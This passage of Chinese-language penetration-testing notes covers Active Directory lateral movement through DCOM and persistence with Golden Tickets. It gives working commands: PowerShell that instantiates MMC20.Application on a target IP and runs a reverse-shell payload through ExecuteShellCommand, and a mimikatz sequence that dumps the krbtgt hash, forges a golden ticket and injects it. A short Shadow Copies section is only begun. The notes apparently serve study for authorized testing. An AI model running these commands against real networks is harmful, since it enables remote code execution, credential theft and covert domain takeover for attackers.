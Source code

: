 ### DCOM
Distributed Component Object Model(DCOM) 分布式组件对象模型

Microsoft Component Object Model(COM)是一种为了创建相互交互的软件组件的系统。最初是为了同一进程或跨进程交互设计的，但后来被扩展为DCOM，以实现在网络上多台计算机之间的交互。

DCOM横向基于Microsoft Management Console(MMC) COM应用程序，这个用于对win进行脚本自动化。

原理：MMC应用程序允许使用 在Document.ActiveView属性下公开的ExecuteShellCommand方法 创建应用程序对象，该方法允许执行任意命令。只要经过授权的用户具有权限，这是本地管理员的默认设置。


```
###创建应用程序对象并保存到$dcom对象中    传入目标IP
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
###使用该方法将参数传进去
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell反弹生成 py脚本","7")

```


## Active Directory Persistence
持久化

### Golden Ticket
secret key是krbtgt的域用户账户的密码hash，如果能够获取到其密码hash，就可以自己创建自己制作的自定义TGT，也被叫做黄金票据。   
将黄金票据注入内存不需要任何admin权限，在未加入域的计算及上也可以

条件：
账户在域管理员组内，或者是域控制器本身

利用：
```
登到dc
###拿到krbtgt的NTLM hash和域SID
privilege::debug
lsadump::lsa /patch

###删除现有的票据
kerberos::purge

###注入黄金票据     jen为要登陆的用户（已存在），corp.com为域名，1693c6cefafffc7af11ef34d1c788f47为krbtgt的NTLM hash，S-1-5-21-1987370270-658905905-1781884369为域SID
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt

###启一个新cmd
misc::cmd

继续横向的时候要使用主机名进行连接，不然会使用NTLM验证，横向失败。
```

### Shadow Copies
影子副本，也被称为卷影子服务（Volume Shadow Service）（VSS），是微软的一项备份技术，允许创建文件或整个卷的快照。
